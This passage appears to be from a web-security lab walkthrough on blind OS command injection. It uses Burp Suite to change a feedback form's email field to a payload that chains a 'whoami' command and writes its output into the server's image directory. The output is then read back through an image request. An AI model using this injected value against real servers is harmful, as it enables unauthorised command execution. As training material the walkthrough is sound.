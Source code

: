 Intercept the request using `BurpSuite` and then `Modify` the request that submits feedback:

Modify the email address changing it to:
```
b||whoami>/var/www/images/whoami.txt||
```
Next, intercept the request that contains an image and modify the filname in the request:
```
GET /image?filename=whoami.txt HTTP/1.1
```
